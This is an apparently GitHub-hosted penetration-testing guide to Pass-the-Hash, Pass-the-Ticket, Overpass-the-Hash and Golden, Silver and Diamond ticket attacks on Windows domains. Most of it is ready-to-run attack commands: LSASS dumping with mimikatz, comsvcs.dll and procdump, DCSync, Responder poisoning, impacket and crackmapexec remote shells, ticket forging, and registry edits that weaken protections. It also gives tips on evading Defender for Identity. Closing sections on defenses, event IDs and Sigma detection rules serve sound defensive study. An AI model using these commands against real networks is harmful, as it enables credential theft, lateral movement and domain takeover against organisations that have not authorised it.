



# Pass-the-Hash & Pass-the-Ticket
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Overview](#overview)
2. [NTLM Authentication Deep Dive](#ntlm-authentication-deep-dive)
3. [NTLM Hash Formats](#ntlm-hash-formats)
4. [Obtaining NTLM Hashes](#obtaining-ntlm-hashes)
5. [Pass-the-Hash Techniques](#pass-the-hash-techniques)
6. [Pass-the-Hash Tool Reference](#pass-the-hash-tool-reference)
7. [Kerberos Authentication Overview](#kerberos-authentication-overview)
8. [Pass-the-Ticket (PtT)](#pass-the-ticket-ptt)
9. [Golden Ticket Attack](#golden-ticket-attack)
10. [Silver Ticket Attack](#silver-ticket-attack)
11. [Overpass-the-Hash](#overpass-the-hash)
12. [Diamond Ticket & Sapphire Ticket](#diamond-ticket--sapphire-ticket)
13. [When PtH Works vs When It Doesn't](#when-pth-works-vs-when-it-doesnt)
14. [Defenses Against PtH and PtT](#defenses-against-pth-and-ptt)
15. [Detection](#detection)
16. [Attack Flow Diagram](#attack-flow-diagram)

---

## Overview

**Pass-the-Hash (PtH)** and **Pass-the-Ticket (PtT)** are authentication bypass techniques that exploit how Windows implements NTLM and Kerberos authentication protocols. Rather than requiring the plaintext password, these techniques allow an attacker to authenticate using the **password hash** (PtH) or a **Kerberos ticket** (PtT) directly.

These techniques are not bugs — they are features of how Windows authentication works. The hash **is** the credential in NTLM. A Kerberos ticket **is** the proof of identity in Kerberos.

> **Note:** Pass-the-Hash has been known since 1997 (first documented by Paul Ashton). Despite being nearly 30 years old, it remains one of the most effective techniques in modern Windows environments because NTLM cannot be disabled in many enterprise environments without breaking legacy applications.

### Why These Techniques Matter

| Scenario | Why PtH/PtT Is Critical |
|----------|------------------------|
| No crackable hashes in dump | Hashes work directly — cracking not needed |
| Complex passwords (>20 chars) | Cracking is infeasible; passing is instant |
| Post-domain compromise | krbtgt hash enables unlimited access |
| Lateral movement at scale | One hash → hundreds of systems |

---

## NTLM Authentication Deep Dive

Understanding **why** PtH works requires understanding NTLM authentication.

### NTLM Challenge-Response Flow



### Why the Hash IS the Password

In NTLM authentication, the server sends a random 8-byte **challenge**. The client responds by computing:

```
Response = HMAC-MD5(NT_Hash, Challenge)
```

The client **never sends the plaintext password**. The server verifies by performing the same computation with the stored hash. Therefore:

- If you have the **NT hash**, you can compute the correct `Response`
- No cracking needed — the hash directly enables authentication
- This is not a vulnerability but the **intended design** of NTLM

```python
# Simplified NTLM authentication (Python pseudocode)
import hashlib, hmac

# Password → NT Hash
password = "Password123"
nt_hash = hashlib.new('md4', password.encode('utf-16le')).digest()

# Challenge from server
challenge = b'\x01\x02\x03\x04\x05\x06\x07\x08'

# Compute response (NTLMv1 simplified)
response = hmac.new(nt_hash, challenge, hashlib.md5).digest()

# An attacker with nt_hash can compute the same response
# without ever knowing "Password123"
```

---

## NTLM Hash Formats

Understanding hash formats is essential for using tools correctly.

### Format Reference

```
Full secretsdump output:
Administrator:500:LM_HASH:NT_HASH:::

Where:
- Administrator = Username
- 500           = RID (Relative Identifier) — 500 = built-in Admin
- LM_HASH       = LAN Manager hash (legacy, often aad3...)
- NT_HASH       = NT hash (the one you want — 32 hex chars)

Example:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::

The NT hash is: 8846f7eaee8fb117ad06bdd830b7586c
(This is the MD4 hash of "Password")

Tool format — most tools use -hashes LM:NT
-hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
         └──────── LM (dummy) ─────────┘ └──────── NT hash ──────────────┘

Shorthand (LM not needed — use zeros):
-hashes :8846f7eaee8fb117ad06bdd830b7586c
```

### Hash Cracking (for completeness)

```bash
# Crack NT hashes with hashcat (mode 1000)
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt --force

# With rules for better coverage
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule --force

# John the Ripper
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Online lookup (if hash is simple)
# https://crackstation.net — database of 1.5 billion hashes
```

---

## Obtaining NTLM Hashes

### Method 1: Mimikatz — LSASS Memory Dump

```bash
# Requires: Local Admin or SYSTEM
# Run as Administrator in elevated cmd.exe or PowerShell

# Enable debug privileges and dump all logon passwords
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Sample output:
# Authentication Id : 0 ; 345678 (00000000:00054321)
# Session           : Interactive from 1
# User Name         : Administrator
# Domain            : CORP
# Logon Server      : DC01
# Logon Time        : 1/1/2024 9:00:00 AM
# SID               : S-1-5-21-...-500
#         msv :
#          [00000003] Primary
#          * Username : Administrator
#          * Domain   : CORP
#          * NTLM     : 8846f7eaee8fb117ad06bdd830b7586c
#          * SHA1     : ...

# Dump only NTLM hashes (faster output)
mimikatz.exe "privilege::debug" "sekurlsa::msv" "exit"

# Dump DPAPI master keys (for decrypting saved credentials)
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" "exit"
```

### Method 2: Impacket Secretsdump (Remote)

```bash
# Dump from remote host (requires local admin on target)
impacket-secretsdump domain/user:password@192.168.1.50

# Dump with hash (PtH to dump)
impacket-secretsdump domain/Administrator@192.168.1.50 \
    -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_HASH

# From domain controller (DCSync — requires Domain Admin or Replication rights)
impacket-secretsdump corp.local/Administrator:password@192.168.1.1 \
    -just-dc-ntlm -outputfile domain_hashes

# DCSync for specific user
impacket-secretsdump corp.local/Administrator:password@DC01 \
    -just-dc-user Administrator

# From local SAM hive files (offline)
impacket-secretsdump -sam sam.hive -system system.hive LOCAL

# From NTDS.dit + SYSTEM hive (full domain dump, offline)
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```

### Method 3: LSASS Process Dump (Stealthy)

```bash
# Dump LSASS memory to file (less AV interaction than mimikatz)
# Then parse offline

# Method A: Task Manager (right-click lsass.exe → Create dump file)
# GUI only — obvious

# Method B: comsvcs.dll (LOLBin — no tools needed)
# Run in PowerShell as SYSTEM:
$lsass_pid = (Get-Process lsass).Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\Temp\lsass.dmp full

# Method C: ProcDump (Sysinternals)
procdump.exe -accepteula -ma lsass.exe C:\Temp\lsass.dmp

# Method D: Task List + CreateDump (Windows 10+)
tasklist /fi "imagename eq lsass.exe"  # Get PID
# Then use CreateDump.exe (Windows built-in debugger helper)

# Parse dump with Mimikatz (offline)
mimikatz.exe "sekurlsa::minidump C:\Temp\lsass.dmp" \
    "sekurlsa::logonpasswords" "exit"

# Parse dump with Pypykatz (Linux)
pypykatz lsa minidump /tmp/lsass.dmp
```

### Method 4: Responder — Capturing NTLMv2 Hashes

```bash
# Capture NTLM hashes via network (NBT-NS/LLMNR poisoning)
responder -I eth0 -rdwv

# Output format (NTLMv2):
# [SMB] NTLMv2-SSP Client   : 192.168.1.50
# [SMB] NTLMv2-SSP Username : CORP\jsmith
# [SMB] NTLMv2-SSP Hash     : jsmith::CORP:ABC123:DEF456:...

# Crack NTLMv2 hashes (hashcat mode 5600)
hashcat -m 5600 ntlmv2_hashes.txt /usr/share/wordlists/rockyou.txt --force

# NOTE: NTLMv2 hashes CANNOT be passed (only cracked)
# Only NT hashes (from secretsdump/mimikatz) can be passed
```

> **Warning:** **NTLMv2 hashes captured by Responder CANNOT be passed.** They must be cracked to reveal the plaintext password. Only **NT hashes** (from LSASS / SAM / NTDS dumps) can be used for PtH.

---

## Pass-the-Hash Techniques

### PtH with Mimikatz

```bash
# Spawn a new process running as the target user (using their hash)
# The new cmd.exe session is authenticated as the target user
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:CORP /ntlm:NTLM_HASH /run:cmd.exe"

# Run PowerShell instead of cmd
mimikatz.exe "sekurlsa::pth /user:jsmith /domain:corp.local /ntlm:NTLM_HASH /run:powershell.exe"

# For local accounts (use . as domain)
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:. /ntlm:NTLM_HASH /run:cmd.exe"

# With AES256 key (more opsec — Kerberos used instead of NTLM)
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:CORP /aes256:AES256_KEY /run:cmd.exe"
```

### PtH with Impacket Suite

```bash
# PSExec — full interactive shell via SMB service creation
impacket-psexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# WMIExec — command execution via WMI (quieter than PSExec)
impacket-wmiexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# SMBExec — execution via SMB (no service creation binary drop)
impacket-smbexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# ATExec — execution via Task Scheduler
impacket-atexec Administrator@192.168.1.50 "whoami" -hashes :NTLM_HASH

# DCOMExec — execution via DCOM (stealthiest)
impacket-dcomexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# SecretsDump via PtH (dump from target using a hash)
impacket-secretsdump -hashes :NTLM_HASH Administrator@192.168.1.50

# Specify domain explicitly
impacket-psexec corp.local/Administrator@192.168.1.50 -hashes :NTLM_HASH
```

### PtH with CrackMapExec

```bash
# Test hash against subnet
crackmapexec smb 192.168.1.0/24 -u Administrator -H NTLM_HASH

# Execute command via PtH
crackmapexec smb 192.168.1.50 -u Administrator -H NTLM_HASH -x "whoami /all"

# Dump SAM via PtH
crackmapexec smb 192.168.1.50 -u Administrator -H NTLM_HASH --sam

# WinRM PtH
crackmapexec winrm 192.168.1.50 -u Administrator -H NTLM_HASH -x "whoami"

# Spawn interactive shell
evil-winrm -i 192.168.1.50 -u Administrator -H NTLM_HASH
```

---

## Pass-the-Hash Tool Reference

| Tool | Transport | Shell Type | Binary Drop | Noise |
|------|-----------|-----------|-------------|-------|
| `impacket-psexec` | SMB (445) | SYSTEM shell | Yes (PSEXESVC.exe) | Very High |
| `impacket-smbexec` | SMB (445) | cmd shell | No | High |
| `impacket-wmiexec` | WMI (135) | Semi-interactive | No | Medium |
| `impacket-atexec` | SMB (445) | Non-interactive | No | Medium |
| `impacket-dcomexec` | RPC (135) | Semi-interactive | No | Medium |
| `evil-winrm` | WinRM (5985) | PowerShell | No | Low |
| `crackmapexec` | SMB/WinRM | Non-interactive | Varies | Medium |
| `mimikatz pth` | Local inject | Spawns process | No | Low |
| `xfreerdp /pth` | RDP (3389) | GUI | No | High |

```bash
# RDP PtH (requires RestrictedAdmin mode or DisableRestrictedAdmin=0)
xfreerdp /u:Administrator /pth:NTLM_HASH /v:192.168.1.50 /cert-ignore

# Enable RestrictedAdmin on target (requires current admin)
reg add "HKLM\System\CurrentControlSet\Control\Lsa" \
    /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

---

## Kerberos Authentication Overview

Kerberos is the default authentication protocol in Active Directory environments. Understanding it is key to understanding PtT and ticket-based attacks.



**Key insight:** Each Kerberos ticket is encrypted with a specific account's hash:
- **TGT** → encrypted with `krbtgt` account hash
- **Service Ticket** → encrypted with the target service account's hash

An attacker who obtains these hashes can forge tickets.

---

## Pass-the-Ticket (PtT)

### Exporting Existing Tickets

```bash
# List all Kerberos tickets in current session
klist

# Mimikatz — list all tickets
mimikatz.exe "kerberos::list"

# Mimikatz — export all tickets to .kirbi files (creates files in current directory)
mimikatz.exe "kerberos::list /export"

# Rubeus — dump tickets from current user context
Rubeus.exe dump

# Rubeus — dump all tickets from all sessions (requires admin)
Rubeus.exe dump /service:krbtgt /nowrap

# Rubeus — triage (list) all tickets
Rubeus.exe triage
```

### Injecting Tickets

```bash
# Mimikatz — inject .kirbi ticket into current session
mimikatz.exe "kerberos::ptt C:\Temp\ticket.kirbi"

# Rubeus — inject base64-encoded ticket
Rubeus.exe ptt /ticket:BASE64_ENCODED_TICKET

# Rubeus — inject from file
Rubeus.exe ptt /ticket:C:\Temp\ticket.kirbi

# Verify injection
klist
# Should show injected ticket in session
```

### Stealing and Reusing Tickets Across Sessions

```bash
# Rubeus — monitor new tickets as they appear (real-time harvesting)
Rubeus.exe monitor /interval:5 /filteruser:Administrator

# Rubeus — harvest tickets continuously
Rubeus.exe harvest /interval:30

# Pass a stolen TGT (e.g., from another user's session)
Rubeus.exe ptt /ticket:ADMIN_TGT_BASE64
dir \\DC01\C$  # Access DC with stolen admin ticket
```

---

## Golden Ticket Attack

A **Golden Ticket** is a forged **TGT** created using the `krbtgt` account's NT hash. Because all TGTs are encrypted with the `krbtgt` hash, an attacker with this hash can forge TGTs for any user, with any group membership, valid for any duration.

This is the ultimate persistence technique — golden tickets survive password resets on all user accounts.

### Requirements

- `krbtgt` account NT hash (requires domain admin or DCSync rights)
- Domain name (FQDN)
- Domain SID

### Obtaining krbtgt Hash

```bash
# Via DCSync (requires Domain Admin or specific replication permissions)
# From a domain-joined machine:
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt"

# Via Impacket (remote DCSync)
impacket-secretsdump corp.local/Administrator:password@192.168.1.1 \
    -just-dc-user krbtgt

# Sample output:
# [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482b2b2137c8a67a4fd9571aae:::
#                                               └──────── NT hash ──────────────┘
```

### Forging the Golden Ticket

```bash
# Step 1: Get domain SID
whoami /user
# Output: corp\administrator S-1-5-21-1234567890-1234567890-1234567890-500
#                             └─────────────── Domain SID ──────────────┘-RID

# Step 2: Forge Golden Ticket with Mimikatz
mimikatz.exe "kerberos::golden \
    /user:FakeAdminAccount \
    /domain:corp.local \
    /sid:S-1-5-21-1234567890-1234567890-1234567890 \
    /krbtgt:9d765b482b2b2137c8a67a4fd9571aae \
    /groups:512,513,518,519,520 \
    /ptt"

# The /ptt flag injects ticket directly into current session
# /groups: 512=Domain Admins, 513=Domain Users, 518=Schema Admins, etc.

# Optional: Save to file for later use
mimikatz.exe "kerberos::golden \
    /user:Administrator \
    /domain:corp.local \
    /sid:S-1-5-21-... \
    /krbtgt:KRBTGT_HASH \
    /ticket:golden.kirbi"

# Step 3: Verify and use
klist
dir \\DC01\C$
psexec \\DC01 cmd
```

### Golden Ticket with Impacket

```bash
# ticketer.py generates Golden Tickets compatible with impacket tools
impacket-ticketer -nthash 9d765b482b2b2137c8a67a4fd9571aae \
    -domain-sid S-1-5-21-1234567890-1234567890-1234567890 \
    -domain corp.local \
    -groups 512,513,518,519,520 \
    Administrator

# Set the ticket file in KRB5CCNAME env var
export KRB5CCNAME=Administrator.ccache

# Use with impacket tools
impacket-psexec -k -no-pass corp.local/Administrator@DC01.corp.local
impacket-secretsdump -k -no-pass corp.local/Administrator@DC01.corp.local
```

> **Warning:** Golden tickets are **extremely loud** if Kerberos event logging is enabled. Event ID 4769 for non-existent accounts, or tickets with unusual lifetimes/group memberships, are red flags. ATA/Defender for Identity specifically detects Golden Ticket use.

---

## Silver Ticket Attack

A **Silver Ticket** is a forged **service ticket (TGS)** for a specific service. Unlike Golden Tickets (which target the KDC), Silver Tickets bypass the KDC entirely — the forged ticket is presented directly to the target service.

### Key Differences

| | Golden Ticket | Silver Ticket |
|--|------|------|
| **Forges** | TGT | Service Ticket (TGS) |
| **Encrypted with** | `krbtgt` hash | Service account hash |
| **KDC Contact** | Not required for use | Not required at all |
| **Scope** | Any service in domain | Specific service only |
| **Detection** | Harder (no KDC log) | Even harder (no KDC contact) |
| **Persistence** | Survives user password changes | Survives until service account changed |

### Forging a Silver Ticket

```bash
# Obtain service account hash (e.g., CIFS/SMB service on file server)
# Service account hash is used to encrypt service tickets

# Common service account targets:
# CIFS (SMB file access) — uses machine account hash
# HTTP (web apps) — uses IIS app pool or service account hash
# MSSQL — uses SQL service account hash

# Step 1: Get machine account hash (for CIFS access to a server)
impacket-secretsdump corp.local/Administrator:password@FILESERVER \
    -just-dc-user "FILESERVER$"

# Step 2: Forge Silver Ticket for CIFS on FILESERVER
mimikatz.exe "kerberos::golden \
    /user:Administrator \
    /domain:corp.local \
    /sid:S-1-5-21-... \
    /target:fileserver.corp.local \
    /service:cifs \
    /rc4:MACHINE_ACCOUNT_HASH \
    /ptt"

# Step 3: Access the service
dir \\fileserver.corp.local\C$

# Silver Ticket for MSSQL
mimikatz.exe "kerberos::golden \
    /user:sa \
    /domain:corp.local \
    /sid:S-1-5-21-... \
    /target:sqlserver.corp.local \
    /service:MSSQLSvc \
    /rc4:SQL_SERVICE_ACCOUNT_HASH \
    /ptt"
```

---

## Overpass-the-Hash

**Overpass-the-Hash** (also called Pass-the-Key) converts an NTLM hash into a Kerberos TGT. This is useful when:
- The network doesn't allow NTLM authentication (NTLMv2 blocked)
- You want to generate a Kerberos TGT from a hash for ticket-based attacks
- You need to use Kerberos for authentication instead of NTLM

```bash
# Mimikatz Overpass-the-Hash
# Creates a new process using Kerberos for authentication
# The NTLM hash is used to request a TGT, and the TGT is used for all subsequent auth
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:corp.local \
    /ntlm:NTLM_HASH /run:cmd.exe"

# The spawned cmd.exe uses Kerberos authentication
# Verify: klist (should show a TGT)

# Rubeus — explicit Overpass-the-Hash (asktgt)
Rubeus.exe asktgt /user:Administrator /rc4:NTLM_HASH /ptt

# With AES256 key (better opsec — not flagged as PtH)
Rubeus.exe asktgt /user:Administrator /aes256:AES256_KEY /ptt /opsec

# Impacket — request TGT with hash
impacket-getTGT corp.local/Administrator -hashes :NTLM_HASH
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass corp.local/Administrator@DC01.corp.local
```

---

## Diamond Ticket & Sapphire Ticket

These are more advanced and stealthy variations of Golden Ticket attacks.

### Diamond Ticket

A **Diamond Ticket** modifies a legitimately obtained TGT rather than forging one from scratch. Because the base TGT is real and properly signed by the KDC, it's harder to detect.

```bash
# Rubeus Diamond Ticket — modifies a real TGT
Rubeus.exe diamond \
    /tgtdeleg \           # Use delegation to get a legit TGT first
    /ticketuser:administrator \
    /ticketuserid:500 \
    /groups:512 \
    /krbkey:KRBTGT_AES256_KEY \
    /ptt
```

### Sapphire Ticket

A **Sapphire Ticket** is similar but impersonates a real user's TGT by requesting it for the target user via S4U2Self, making it virtually indistinguishable from legitimate traffic.

> **Note:** Diamond and Sapphire tickets are specifically designed to evade Microsoft Defender for Identity (MDI), which detects Golden Tickets based on PAC validation anomalies.

---

## When PtH Works vs When It Doesn't

| Scenario | PtH Works? | Reason |
|----------|-----------|--------|
| Domain admin account | ✅ Yes | Full admin access |
| RID 500 (built-in Admin) | ✅ Yes | Always works, even with UAC |
| Local admin account (not RID 500) | ❌ No* | LocalAccountTokenFilterPolicy blocks remote admin token |
| Domain account with local admin rights | ✅ Yes | Domain accounts not filtered |
| Credential Guard enabled | ❌ No | LSA secrets protected by virtualization |
| Protected Users group member | ❌ No | Kerberos-only, no NTLM |
| NTLM disabled via policy | ❌ No | NTLM auth blocked entirely |
| WinRM with limited access | ✅ Partial | Can connect but may have restricted rights |
| RDP with NLA | ❌ No | Network Level Auth requires proper credentials |
| RDP in RestrictedAdmin mode | ✅ Yes | Specifically designed for PtH |

### Fixing Local Admin PtH Failure

```bash
# LocalAccountTokenFilterPolicy = 0 (default) blocks non-RID-500 local admin PtH
# Set to 1 to allow PtH for all local admins (must be done with existing admin access)

reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" \
    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# FilterAdministratorToken = 1 (default off)
# When enabled, RID 500 is ALSO filtered (extra protection)
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" \
    /v FilterAdministratorToken
```

---

## Defenses Against PtH and PtT

### Technical Controls

| Defense | Technique Mitigated | Implementation |
|---------|-------------------|----------------|
| **Credential Guard** | PtH, PtT | Enable via Group Policy: Virtualization Based Security |
| **Protected Users Group** | NTLM auth, credential caching | Add privileged accounts to group |
| **Disable NTLM** | PtH entirely | Network security: Restrict NTLM policies |
| **LAPS** | Local admin hash reuse | Deploy Microsoft Local Admin Password Solution |
| **Tiered Admin Model** | Domain/local admin overlap | Separate Tier 0/1/2 admin accounts |
| **Privileged Access Workstations** | Hash exposure | Admins use dedicated PAWs |
| **krbtgt password rotation** | Golden Ticket (existing) | Reset twice after compromise |
| **AES encryption enforcement** | NTLM-based PtH | Enforce AES128/256 for Kerberos |
| **SID Filtering** | Cross-domain ticket abuse | Enable in domain trusts |

### Credential Guard Configuration

```powershell
# Check if Credential Guard is enabled
(Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard").EnableVirtualizationBasedSecurity

# Enable via PowerShell (requires reboot)
# Note: Requires TPM and UEFI
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard" `
    -Name "EnableVirtualizationBasedSecurity" -Value 1 -Type DWORD
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" `
    -Name "LsaCfgFlags" -Value 1 -Type DWORD
```

### Protected Users Group Effects

Members of the **Protected Users** security group are subject to restrictions that prevent common credential theft:

| Restriction | Impact |
|------------|--------|
| No NTLM authentication | PtH blocked entirely |
| No WDigest plaintext caching | Mimikatz can't extract plaintext |
| No CredSSP delegation | No plaintext in network delegation |
| No Kerberos DES/RC4 | AES required (PtH with NTLM hash blocked for Kerberos) |
| TGT lifetime: 4 hours | Short ticket lifetime limits PtT window |
| No cached credentials | Can't log in when DC unavailable |

---

## Detection

### Windows Event IDs

| Event ID | Source | Indicates |
|----------|--------|-----------|
| 4624 | Security | Logon — check LogonType and AuthPackage |
| 4625 | Security | Failed logon |
| 4648 | Security | Explicit credential logon (runas, PtH) |
| 4768 | Security | Kerberos TGT request — check encryption type |
| 4769 | Security | Kerberos service ticket request |
| 4771 | Security | Kerberos pre-auth failure |
| 4776 | Security | NTLM credential validation — check on DC |

### PtH Detection Signatures

```
# PtH via NTLM — Event 4624 indicators:
LogonType: 3 or 9
AuthenticationPackageName: NTLM
LmPackageName: NTLM V2
KeyLength: 0  ← Key indicator of PtH (no session key)

# Golden Ticket — Event 4769 indicators:
TicketEncryptionType: 0x17 (RC4)  ← DCs should use AES (0x12/0x11)
TicketOptions: 0x40810000
ServiceName: krbtgt  ← Unusual to see krbtgt ticket requests from workstations
```

### Sigma Detection Rules

```yaml
title: Pass-the-Hash Detection
status: experimental
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4624
    LogonType: 3
    AuthenticationPackageName: 'NTLM'
    KeyLength: 0
  filter:
    SubjectUserName: 'ANONYMOUS LOGON'
  condition: selection and not filter
level: high
tags:
  - attack.lateral_movement
  - attack.t1550.002

---
title: Golden Ticket Usage
status: experimental
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4769
    TicketEncryptionType: '0x17'  # RC4 - DCs should use AES
    ServiceName: 'krbtgt'
  condition: selection
level: critical
tags:
  - attack.lateral_movement
  - attack.t1550.003
```

---

## Attack Flow Diagram



---

*Tools referenced: Mimikatz, Rubeus, Impacket, CrackMapExec, Evil-WinRM, Hashcat, Pypykatz*
